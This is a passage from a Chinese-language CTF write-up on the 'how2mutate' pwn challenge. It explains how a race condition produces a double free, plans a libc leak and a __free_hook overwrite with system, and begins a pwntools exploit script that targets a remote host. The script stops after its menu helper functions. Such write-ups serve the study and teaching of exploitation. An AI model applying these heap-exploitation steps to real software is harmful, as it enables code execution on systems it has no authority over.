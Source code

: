 两次free中间会执行一个条件判断和一个日志输入，终点就是这个日志输出函数，这里的执行时间还是挺长的，竞争窗口很大，条件竞争构造DoubleFree可行。



## 利用

那么接下来就是DoubleFree的利用了。这里的DoubleFree很明显的可以转化为任意地址分配。

那么首先需要进行的就是地址泄漏，在本地调试的时候进行日志输出也就是PLOG_W函数执行的时候会进行一系列的地址分配，完成输出之后会残留有一个unsorted bin堆块，并且如果在add_seed函数中调用的话，最后还会输出一个堆地址，那么利用上述的地址分配到unsorted bin地址处就可以完成libc的地址泄漏了。

但是远程的环境与本地不同，并没有残留有unsorted bin的堆块，因此只能够提前部署一个unsorted bin的堆块进行libc地址的泄漏，之后再任意地址分配覆写free_hook为system

完整的exp如下

```
# -*- coding: utf-8 -*-
from pwn import *

file_path = "./how2mutate"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 0
if debug:
    p = process([file_path])
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    one_gadget = 0x0

else:
    p = remote('111.186.59.27', 12345)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    one_gadget = 0x0

def add_seed(size, content=b"\n"):
    p.sendlineafter("&gt; ", "1")
    p.sendlineafter("size: ", str(size))
    if size &gt; 0:
        p.sendafter("content: ", content)

def mutate_seed(index):
    p.sendlineafter("&gt; ", "2")
    p.sendlineafter("index: ", str(index))

def show_seed():
    p.sendlineafter("&gt; ", "3")

def delete_seed(index):
    p.sendlineafter("&gt; ", "4")
    p.sendlineafter("index: ", str(index))

def set_mutate(mutate):
    p.sendlineafter("&gt; ", "5")
    p.sendlineafter("mutationsPerRun: ", str(mutate))

def fuzz():
    p.sendlineafter("&gt; ", "6")

heap_address = 0
set_mutate(0)

for i in range(1):
    add_seed(0x17, b"a" * 0x17)

```